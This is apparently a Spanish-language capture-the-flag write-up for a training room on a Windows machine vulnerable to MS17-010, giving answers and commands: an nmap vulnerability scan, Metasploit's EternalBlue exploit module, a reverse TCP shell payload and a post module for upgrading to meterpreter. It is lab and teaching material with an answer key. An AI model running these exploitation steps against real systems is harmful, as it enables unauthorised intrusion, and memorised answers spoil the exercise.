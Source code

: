 ## Reconocimiento

Escanea la máquina. (Si no está seguro de cómo abordar esto, le recomiendo que visite la sala de Nmap )
¿Cuántos puertos están abiertos con un número de puerto inferior a 1000?

    Command: nmap -sV -vv --script vuln TARGET_IP
    Solo 3 puertos son de los inferiores a  1000 el resto es superior


¿A qué es vulnerable esta máquina? (Respuesta en forma de: ms ?? - ???, ex: ms08-067)
 
    ms17-010

## Acceder

Iniciar Metasploit

	msfconsole
 
Encuentra el código de explotación que ejecutaremos contra la máquina. ¿Cuál es la ruta completa del código? (Ej: explotar / ........)

	Search eternalblue
 
    exploit/windows/smb/ms17_010_eternalblue

Muestre opciones y establezca el valor requerido. ¿Cuál es el nombre de este valor? (Todo en mayúsculas para la presentación)
Show options
 
    RHOSTS

Por lo general, estaría bien ejecutar este exploit como está; sin embargo, por el bien de aprender, debe hacer una cosa 
más antes de explotar el objetivo. Ingrese el siguiente comando y presione enter:

    set payload windows/x64/shell/reverse_tcp

## Escalar

Si aún no lo ha hecho, ponga en segundo plano el shell obtenido anteriormente (CTRL + Z). Investigue en línea cómo 
convertir un shell en un shell meterpreter en metasploit. ¿Cuál es el nombre del módulo de publicación que usaremos? 
(Ruta exacta, similar al exploit que seleccionamos previamente) 
 
    post/multi/manage/shell_to_meterpreter 

Seleccione esto (use MODULE_PATH). Mostrar opciones, ¿qué opción debemos cambiar?

    SESSION

